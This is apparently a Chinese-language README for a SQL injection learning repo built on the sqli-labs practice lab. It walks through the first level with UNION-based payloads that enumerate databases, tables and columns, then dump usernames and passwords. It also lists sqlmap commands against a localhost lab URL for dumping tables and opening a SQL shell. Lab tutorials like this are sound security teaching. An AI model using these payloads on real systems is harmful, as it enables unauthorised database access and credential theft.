




## Some Tools ,Writeup or Labs About Sql-Injection
#### 1、sqlmap 
[sqlmapproject-sqlmap.zip](Tools/sqlmapproject-sqlmap.zip)

#### 2、sqli-labs
[sqli-labs.zip](Src/sqli-labs.zip)

#### 3、sqlli-labs参考WP
[sqli-labs参考.pdf](Book/sqli-labs参考.pdf)

#### 4、sqlli-labs参考WP
[sqlmap教程.pdf](Book/sqlmap教程.pdf)

## 简单入门
### 一、Introduction
Sqli-labs是一个印度程序员写的，用来学习sql注入的一个游戏教程
官方地址传送门 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
至于环境搭建，可以通过docker部署一下或者phpStudy本地部署一下[http://phpstudy.php.cn/](http://phpstudy.php.cn/),部署详情可参照本书(p3)[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs参考.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs%E5%8F%82%E8%80%83.pdf)。
<!--more-->
### 二、通过sqli-labs-Less-1 学习一些基本mysql操作
在环境搭建好之后我们能看到每个题目都有一个描述把本题的考点指出，这也意味着降低了我们的难度

#### Less-1
**hint**:GET-Error based-Single quotes-String

**Hack**:
1、进入后要求GET传入一个id

2、每传入一个id屏幕上显示不同的name和password

3、传入一个单引号试探注入点，发现报错
```
.....  syntax to use near ''1'' LIMIT 0,1' at line 1...

```
思考为什么会出现`''1'' LIMIT 0,1'`,最外面一组单引号是报错的显示，所以在sql语句中应该是`'1'' LIMIT 0,1`,其实`1'`是我们传的参数，所以大致能猜测到访问数据库语句为
```
SELECT name,Password FROM users WHERE id='$id' LIMIT 0,1
```
4、过程
首先为了sql注入，我们需要拿一个`'`来截断 `id='$id'`，并且在末尾添加#或者--+来注释，（注意url中遇到空格，#等字符需要url编码一次）,比如我们可以输入`1 'union select name,Password FROM users #`（当然现在还不知道数据库名和字段），另外本题应该只展示拿到的第一个数据。
```
SELECT name,Password FROM users WHERE id='1'union select name,Password FROM users # ' LIMIT 0,1;
```


5、基本知识储备
当我们不知道数据库名，表名字段名时，需要去爆库，原理其实就是MySQL版本大于5.0时，有个默认数据库information_schema，里面存放着所有数据库的信息(比如表名、 列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。
爆库的标准姿势
```
select schema_name from information_schema.schemata;     //猜数据库

select table_name from information_schema.tables where table_schema='xxxxx';     //猜某数据库的数据表

Select column_name from information_schema.columns where table_name='xxxxx';     //猜某表的字段名
```
在mysql中可以直接拿数字作为order by或者group by的参数,但是数字一定要小于我们拿出来的列数否者报错

另外concat()能将一些字符串连接一个字符串适用于一条数据,group_concat()能够将一张表的数据的一些数据分组合并起来，适用性比较广
6、所以本题基本payload,先通过传id=-1让第一句为空，展示出第二句
首先看sql语句中拿了多少列数据
```
1' order by 3%23    //不报错
1' order by 4%23    //报错
```
所以大概有3列数据，一般能想得到多拿了一个id，所以我们可以通过，第二列第三列数据拿到信息
首先爆数据库有哪些
```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```

拿到五个数据库`information_schema,challenges,mysql,performance_schema,security`
现在查询security数据库哪些表
```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
```
拿到`emails,referers,uagents,users`
现在查询users的所有字段
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
```
拿到`id,username,password`
最后可以拿到所有人的账号密码
```
-1' union select 1,group_concat(username),group_concat(password) from users%23
```

### 三、sqlmap使用
sqlmap是基于python2.6/2.7的，所以推荐大家拿virtualenv搭建py2.7虚拟环境,保不定以后有用,教程[https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/](https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/)，Sqlmap是开源的自动化SQL注入工具,当然这是在于自己手注不进去的时候可以参考一下，github地址为[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)，功能参考书[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap教程.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap%E6%95%99%E7%A8%8B.pdf)
#### 一些常用使用命令
##### 1、是否能注入
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"
```
##### 2、获取所有的数据库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs
```
##### 3、当前库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db
```
##### 4、查询某数据库的所有表（比如security）
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"  -D security --tables
```
##### 5、暴力查询所有的表
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   --tables
```
##### 6、列出security库中users表中的所有列
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users --columns
```
(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)
##### 7、导出三个数据列中所有的数据
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users -C id,username,password --dump
```
##### 8、提供一个sql shell
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --sql-shell
```

[下一篇-2~6题详解](README2.md)


更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)